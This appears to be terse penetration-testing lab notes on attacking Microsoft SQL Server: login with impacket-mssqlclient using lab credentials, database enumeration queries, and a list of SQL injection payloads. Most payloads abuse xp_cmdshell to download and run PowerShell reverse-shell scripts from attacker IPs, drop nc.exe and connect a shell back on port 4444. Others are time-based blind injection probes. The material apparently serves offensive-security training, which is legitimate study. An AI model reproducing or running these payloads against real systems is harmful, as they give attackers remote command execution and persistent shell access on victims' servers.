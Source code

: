 natively integrates into windows ecosystem
builtin command line tool SQLCMD
from kali using impacket-mssqlclient
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
SELECT @@version;
SELECT name FROM sys.databases;
SELECT * FROM offsec.information_schema.tables;
select * from offsec.dbo.users;

```
'EXEC xp_cmdshell "powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://192.168.45.233:8000/rev.ps1')"; --

EXEC xp_cmdshell "powershell.exe IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.168:8000/powercat.ps1');
powercat -c 192.168.45.168 -p 4444 -e powershell" ; --

o' ; exec xp_cmdshell "powershell.exe wget http://192.168.45.240:8000/nc64.exe -OutFile c:\\Users\Public\\nc.exe" ; --

o' ; exec xp_cmdshell "c:\\Users\Public\\nc.exe -e cmd.exe 192.168.45.240 4444" ; --

'EXEC xp_cmdshell "powershell Invoke-PowerShellTcp -Reverse -IPAddress 192.168.45.241 -Port 4444"; --

'; IF (1=2) WAITFOR DELAY '0:0:10';--

'; IF ((select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = 'users' )>3) WAITFOR DELAY '0:0:10';--
```